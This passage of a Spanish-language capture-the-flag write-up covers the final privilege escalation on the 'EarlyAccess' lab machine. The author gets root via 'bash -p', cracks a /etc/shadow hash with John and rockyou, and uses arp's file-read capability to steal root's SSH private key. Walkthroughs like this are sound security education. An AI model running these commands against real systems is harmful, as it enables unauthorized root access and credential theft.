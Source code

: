 una vez que nos bota el host nos conectamos de nuevo <i>ssh game-tester@172.19.0.3</i> y listooo...

```powershell
-bash-4.4$ cd /docker-entrypoint.d/
-bash-4.4$ ls
miscript.sh node-server.sh
-bash-4.4$ bash -p
bash-4.4# whoami
root
bash-4.4#
```

no vemos ninguna flag en la raiz pero podemos ver el <i>/etc/shadow</i> y existe un mismo usuario <i>game-adm</i>
la trataremos de romper con nuestro querido <i>jhon</i>.

```powershell
jhon --wordlist=/usr/share/wordlists/rockyou.txt hash
...
gamemaster (game-adm)
...
```

genial nos dio una contraseña nos conectamos <i>drew@earlyaccess:/home$ su game-adm</i>
este usuario pertenece al grupo <i>4(adm)</i> recordemos que teníamos <i>arp</i> con las
capacidades de <i>=ep</i> la cual nos permite leer archivos como indica <a href='https://gtfobins.github.io/gtfobins/arp/#file-read' target='_blank'>gtfobins</a>,
entonces procedemos de la siguiente manera...

```powershell
game-adm@earlyaccess:/home$ LFILE=/root/.ssh/id_rsa
game-adm@earlyaccess:/home$ /usr/sbin/arp -v -f $LFILE 2>&1 | grep -Ev "format|cannot|Unknown host" | sed 's/>> //' >/tmp/id_rsa
game-adm@earlyaccess:/home$ chmod 600 /tmp/id_rsa
game-adm@earlyaccess:/tmp$ ssh -i id_rsa root@localhost
root@earlyaccess:~# cd /root
root@earlyaccess:~# ls
app root.txt
root@earlyaccess:~# cat root.txt
******************

```
